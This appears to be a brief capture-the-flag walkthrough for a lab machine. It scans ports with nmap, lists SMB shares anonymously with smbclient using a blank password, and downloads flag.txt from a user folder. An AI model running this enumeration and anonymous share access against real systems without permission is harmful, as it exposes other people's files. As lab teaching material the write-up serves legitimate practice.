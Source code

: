 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 445/tcp - open - microsoft-ds?


2. List the files stored on the share
```bash
smbclient -L [ip machine]
	Password: [blank]
```
-->   ADMIN$ - Disk - Remote Admin /
        C$ - Disk - Default share / 
        IPC$ - IPC - Remote IPC / 
        **WorkShares - Disk**      


3. Connect to the machine via "smb"
```bash
smbclient \\\\[ip machine]\\Workshares
	Password: [blank]
```
--> Connected


4. Move into the machine and Capture the flag
```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt
```
--> Transfer completed!